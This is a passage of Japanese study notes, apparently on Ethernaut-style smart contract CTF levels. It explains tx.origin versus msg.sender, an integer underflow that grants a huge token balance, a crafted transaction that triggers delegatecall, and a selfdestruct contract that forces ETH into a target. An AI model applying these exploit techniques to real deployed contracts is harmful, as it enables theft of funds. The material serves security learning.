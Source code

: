 例えば

Bob の EOA -> AContract -> BContract

BContract からすると
msg.sender は AContract
tx.origin は Bob の EOA

tx.origin はセキュリティ上問題があるため、非推奨
tx.origin の情報が知りたい場合はコントラクトにその情報を送る必要がある

# 5. Token

典型的なオーバーフロー脆弱性
solidity にはマイナスの概念がないため
uint256 の場合
2^256 が max だがそれに＋ 1 すると０に戻る
0 から-1 を引くと 2^256 になるため

`balances[msg.sender] - _value >= 0`の value は 20 以上を入れればクリアできる。
また自分のアドレスにオーバーフローした大量のトークンが追加される。

# 6. Delegate

msg.data を作成する。

```js

> await contract.sendTransaction({ data: web3.sha3("Method") })
```

# 7. Force

solidity の SelfDestruct(非推奨)

- コントラクトを使用不可にするときに使われる
- そのコントラクトにある分の Eth を宛先に送信する。このとき宛先の fallback 関数は呼び出されない。
- fallback 関数が non-payable でも送信できてしまう。

OpenZeppelin の Pausable コントラクトなどで使用できないようにするのが推奨されている。

```js

pragma solidity ^0.6.12;

contract KillContract {
    fallback() external payable {}
    // payableで宣言
    address payable sendEthAddress;

    constructor(address payable _sendEthAddress) public {
        sendEthAddress = _sendEthAddress;
    }

    function kill() public {
        selfdestruct(sendEthAddress);
    }
}
```
